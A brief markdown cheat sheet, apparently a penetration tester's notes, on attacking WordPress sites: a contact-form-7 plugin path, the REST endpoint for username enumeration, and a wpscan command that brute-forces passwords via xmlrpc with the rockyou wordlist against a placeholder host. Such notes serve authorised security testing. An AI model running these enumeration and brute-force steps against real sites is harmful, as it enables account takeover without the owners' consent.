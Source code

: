 # wordpress

# wordpress contact form 7 vuln
```
/wp-content/plugins/contact-form-7/
```
# Username Enumeration slugs 
```
/wp-json/wp/v2/users
```
# attack Brute force via Enumeration
```
wpscan --url https://test.com -U 'user1,user2' -P /usr/share/wordlist/rockyou.txt --password-attac xmlrpc
```
